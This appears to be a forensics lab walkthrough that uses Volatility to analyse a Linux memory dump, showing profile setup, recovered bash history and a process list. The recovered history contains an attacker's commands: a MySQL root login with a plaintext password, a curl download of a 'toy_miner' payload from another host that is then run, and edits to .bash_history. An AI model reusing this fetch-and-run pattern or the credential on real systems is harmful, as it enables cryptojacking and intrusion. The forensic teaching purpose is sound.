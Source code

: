 - copy already profile ubuntu
```
buntu@volatility:~/Desktop/Evidence$ cp Ubuntu_5.4.0-163-generic_profile.zip ~/.local/lib/python2.7/site-packages/volatility/plugins/overlays/linux/
ubuntu@volatility:~/Desktop/Evidence$ 


buntu@volatility:~/Desktop/Evidence$ vol.py --info | grep Ubuntu
Volatility Foundation Volatility Framework 2.6.1
LinuxUbuntu_5_4_0-163-generic_profilex64 - A Profile for Linux Ubuntu_5.4.0-163-generic_profile x64
```

## Memory Analysis

The file **linux.mem** contains the memory dump of the Linux server we're going to analyse. This file is located in our home directory. For Volatility to begin the analysis, we have to specify the file with the `-f` flag and the profile with the `--profile` flag. We can use the `-h` flag to look at all the different **plugins** we can use to help with our analysis.

- **History File**

```
vol.py -f linux.mem --profile="LinuxUbuntu_5_4_0-163-generic_profilex64" linux_bash
Volatility Foundation Volatility Framework 2.6.1
Pid      Name                 Command Time                   Command
-------- -------------------- ------------------------------ -------
    8092 bash                 2023-10-02 18:13:46 UTC+0000   sudo su
    8092 bash                 2023-10-02 18:15:44 UTC+0000   git clone https://github.com/504ensicsLabs/LiME && cd LiME/src/
    8092 bash                 2023-10-02 18:15:53 UTC+0000   ls
    8092 bash                 2023-10-02 18:15:55 UTC+0000   make
    8092 bash                 2023-10-02 18:16:16 UTC+0000   vi ~/.bash_history 
    8092 bash                 2023-10-02 18:16:38 UTC+0000    
    8092 bash                 2023-10-02 18:16:38 UTC+0000   ls -la /home/elfie/
    8092 bash                 2023-10-02 18:16:42 UTC+0000   sudo su
    8092 bash                 2023-10-02 18:18:38 UTC+0000   ls -la /home/elfie/
    8092 bash                 2023-10-02 18:18:41 UTC+0000   vi ~/.bash_history 
   10205 bash                 2023-10-02 18:19:58 UTC+0000   mysql -u root -p'NEhX4VSrN7sV'
   10205 bash                 2023-10-02 18:19:58 UTC+0000   id
   10205 bash                 2023-10-02 18:19:58 UTC+0000   curl http://10.0.2.64/toy_miner -o miner
   10205 bash                 2023-10-02 18:19:58 UTC+0000   ./miner
   10205 bash                 2023-10-02 18:19:58 UTC+0000   cat /home/elfie/.bash_history
   10205 bash                 2023-10-02 18:20:03 UTC+0000   vi .bash_history 
   10205 bash                 2023-10-02 18:21:21 UTC+0000   cd LiME/src/

```

- **Running Processes**

```
vol.py -f linux.mem --profile="LinuxUbuntu_5_4_0-163-generic_profilex64" linux_pslist
Volatility Foundation Volatility Framework 2.6.1
Offset             Name                 Pid             PPid            Uid             Gid    DTB                Start Time
------------------ -------------------- --------------- --------------- --------------- ------ ------------------ ----------
0xffff9ce9bd5baf00 systemd              1               0               0               0      0x000000007c3ae000 2023-10-02 18:08:02 UTC+0000
0xffff9ce9bd5bc680 kthreadd             2               0               0               0      ------------------ 2023-10-02 18:08:02 UTC+0000
0xffff9ce9bd5b9780 rcu_gp               3               2               0               0      ------------------ 2023-10-02 18:08:02 UTC+0000
0xffff9ce9bd5b8000 rcu_par_gp           4               2               0               0      ------------------ 2023-10-02 18:08:02 UTC+0000
```